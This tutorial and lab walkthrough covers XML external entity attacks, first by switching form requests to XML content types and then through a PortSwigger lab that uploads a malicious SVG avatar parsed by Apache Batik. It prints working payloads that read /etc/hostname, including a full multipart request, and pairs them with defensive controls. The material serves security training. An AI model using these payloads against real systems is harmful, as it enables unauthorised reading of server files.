





# XXE attacks via modified content type

A request does not have to begin as XML to expose an XXE attack surface. Some backends support multiple representations of the same operation. Converting a form request to XML can reveal a parser path that was not visible in the normal browser flow.

## Original form request

```http
POST /endpoint HTTP/1.1
Content-Type: application/x-www-form-urlencoded

param1=value1&param2=value2
```

## XML representation

```http
POST /endpoint HTTP/1.1
Content-Type: application/xml

<?xml version="1.0"?>
<request>
    <param1>value1</param1>
    <param2>value2</param2>
</request>
```

## Testing methodology

1. Identify a POST endpoint that accepts user-controlled values.
2. Save a working baseline request and response.
3. Change the content type to `text/xml` or `application/xml`.
4. Convert parameters into XML elements while preserving the operation's meaning.
5. Add a harmless entity or a controlled OAST probe.
6. Compare parser errors, response behavior, and server-side callbacks.

A form request such as:

```text
userId=123&name=test
```

may become:

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<request>
    <userId>123</userId>
    <name>&xxe;</name>
</request>
```

## What to look for

- XML parser error messages after changing the content type.
- A different status code or response structure.
- XML-specific validation errors.
- DNS or HTTP interactions from an authorized OAST domain.
- Backends that accept `text/xml`, `application/xml`, or `application/xhtml+xml`.

## Defensive guidance

Accept only the representation the endpoint is designed to process. Enforce content-type and schema validation, reject unexpected parser features, disable external entities, and test all supported representations consistently.

---

## Lab walkthrough: XXE via image file upload

This lab lets users attach avatars to comments. The server uses Apache Batik to process SVG images, and Batik parses the uploaded SVG as XML. The objective is to upload an SVG containing an external entity that renders `/etc/hostname`, then submit the displayed hostname.

### 1. Identify the image-processing path

Open a blog post, start a comment, and inspect the avatar upload field. The important detail is that an SVG is not just an image: it is XML and can contain a `DOCTYPE` declaration.







### 2. Build the malicious SVG

Use an external entity that reads the lab hostname and place the entity reference inside an SVG text element:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="128px" height="128px"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

The SVG renderer expands `&xxe;` while processing the image and draws the result into the generated image.



### 3. Submit the multipart request

The source capture contains the following request structure. Session and CSRF values are lab-specific and should be regenerated:

```http
POST /post/comment HTTP/2
Host: 0a4600bb0334b2f380259e0e00cf002a.web-security-academy.net
Cookie: session=0QavFDJnMLtubN9eshdlX5O5XwRjD4D7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:146.0) Gecko/20100101 Firefox/146.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary4d1cc0edc26247006f01372142ce0836
Origin: https://0a4600bb0334b2f380259e0e00cf002a.web-security-academy.net
Referer: https://0a4600bb0334b2f380259e0e00cf002a.web-security-academy.net/post?postId=3

------geckoformboundary4d1cc0edc26247006f01372142ce0836
Content-Disposition: form-data; name="csrf"

CSRF_TOKEN
------geckoformboundary4d1cc0edc26247006f01372142ce0836
Content-Disposition: form-data; name="postId"

3
------geckoformboundary4d1cc0edc26247006f01372142ce0836
Content-Disposition: form-data; name="comment"

Hello
------geckoformboundary4d1cc0edc26247006f01372142ce0836
Content-Disposition: form-data; name="name"

Hello
------geckoformboundary4d1cc0edc26247006f01372142ce0836
Content-Disposition: form-data; name="avatar"; filename="xssSvg.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
------geckoformboundary4d1cc0edc26247006f01372142ce0836
Content-Disposition: form-data; name="email"

test@dontwannacry.com
------geckoformboundary4d1cc0edc26247006f01372142ce0836
Content-Disposition: form-data; name="website"

------geckoformboundary4d1cc0edc26247006f01372142ce0836--
```



### 4. Read the rendered hostname

After the comment is submitted, view the processed avatar. The rendered text contains the server hostname. Enter that value through the lab's **Submit solution** control.

### Why this works

The application treats a user-uploaded SVG as an image but sends it to an XML-aware library. The library accepts external entities and performs file resolution in the server's context. Restricting the upload extension alone would not be sufficient; SVG parsing must also be hardened or isolated.

### Defensive controls

- Reject SVG uploads when SVG is not required.
- Sanitize SVG with a parser configured to disable DTDs and external entities.
- Rasterize uploads in an isolated process with no sensitive filesystem access.
- Serve uploaded files from a separate origin and prevent active content from being interpreted by the application.
